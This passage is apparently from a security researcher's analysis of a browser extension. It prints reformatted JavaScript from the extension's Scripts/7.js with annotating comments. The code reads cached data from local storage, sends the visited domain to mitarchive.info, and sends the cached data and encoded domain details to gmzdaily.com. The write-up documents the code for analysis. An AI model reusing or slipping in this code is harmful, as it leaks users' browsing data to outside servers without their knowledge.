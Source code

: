 These functions store data into local storage that would be sent to the server through other functions (also never called).

[***Scripts/7.js***](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/7.js): [SdLclStrg()](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/7.js#L792), [GtAlexaInfo()](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/7.js#L762)

```javascript
// RAIN: "Send Local Storage": Gets cached info and sends it off
function SdLclStrg() {
    var a = localStorage.getItem("extCacheFunc");
    a && 0 < a.length && GtAlexaInfo(a)
}

// RAIN: Reformatted for clarity
function GtAlexaInfo(a) {
  var b = new XMLHttpRequest;
  b.onreadystatechange = function() {
    if (4 == b.readyState) {
      // RAIN: If current top domain is www.booking.com, this response will return a double
      // Base-64 encoded string containing: "89`68306`viglink viglink2 skimlinks2 yieldkit awin"
      var c = b.responseText;

      if (0 < c.length) {
        c = dblB64(c, "decode");
        var d = c.split("`")[0];
        c.split("`");
        var e = c.split("`")[2];

        if ("" == d) { d = "99999999999"; }

        var f = false;
        c = "[P] " + getDomain(false);

        if (500 < parseInt(d) && 1E5 > parseInt(d)) {
          f = "UNKNOWN";
          if (500 < parseInt(d) && 1E3 > parseInt(d)) { f = "AAAA1K"; }
          if (1E3 < parseInt(d) && 1E4 > parseInt(d)) { f = "BBB10K"; }
          if (1E4 < parseInt(d) && 1E5 > parseInt(d)) { f = "CC100K"; }
          c = "[Rank=" + f + "]" + c;
          f = true;
        }

        if (isExcludeAlexFltr()) { f = false; }
        if (0 < e.length) { c = "[Merchant]" + c; f = true }

        if (f) {
          d = new XMLHttpRequest;
          e = "https://gmzdaily.com/alt.php?&c=" + a;  // RAIN: Data in the local storage is sent to server
          e = e + "&u=" + dblB64("[AlexaFilter]" + c, "encode");
          d.open("GET", e, true);
          d.send();
        }

        localStorage.setItem("extCacheFunc", "");
      }
    }
  };

  b.open("GET", "https://mitarchive.info/alexbob.php?s=http://" + getTopDomain(), !0);
  b.send()
}
```
